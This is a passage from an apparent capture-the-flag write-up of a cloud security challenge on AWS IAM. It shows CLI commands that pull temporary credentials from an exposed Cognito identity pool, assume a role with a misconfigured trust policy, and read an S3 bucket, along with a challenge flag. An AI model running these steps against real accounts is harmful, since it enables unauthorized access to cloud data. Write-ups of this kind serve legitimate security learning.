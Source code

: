 ```json
                "s3:ListBucket"
            ],
            "Resource": [
                "arn:aws:s3:::wiz-privatefiles",
                "arn:aws:s3:::wiz-privatefiles/*"
            ]
        }
    ]
}
```

### Steps:
1. Found IdentityPoolId in source code.
2. Used AWS CLI to get identity ID and credentials:
```bash
aws cognito-identity get-id --identity-pool-id "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"
aws cognito-identity get-credentials-for-identity --identity-id "<returned-id>"
```
3. Used the temporary credentials to generate a signed URL for S3 access.

---

## Challenge C6: Assume breach

**Challenge Value:** 10 points  
**Description:**  
IAM role trust relationship allows arbitrary users to assume a role because of a misconfigured trust policy.

### Exploitation:
```bash
aws sts assume-role --role-arn arn:aws:iam::756243157448:role/s3-readonly-role --role-session-name demo
```

- Successfully assumed the role and received temporary credentials.
- Used those credentials to access S3:
```bash
aws s3 cp s3://wiz-openbucket/flag.txt . --region us-east-1
```

**Flag:** `{wiz:assume-role-is-the-best}`

---

## Conclusion

The Big IAM Challenge involved a series of real-world scenarios related to AWS security services. By analyzing IAM policies, exploiting misconfigurations, and interacting with various AWS resources like S3, SQS, and SNS, I was able to successfully extract the flags and complete the challenges.
This experience enhanced my understanding of cloud security, particularly in the context of AWS IAM, S3, SQS, and SNS. It also reinforced the importance of careful policy configuration to prevent unauthorized access to sensitive resources.

---
## My Certificate
https://bigiamchallenge.com/finisher/gfgZRK6F

![image](https://github.com/user-attachments/assets/93aa44bf-2244-483d-9db8-f6472e2927d7)

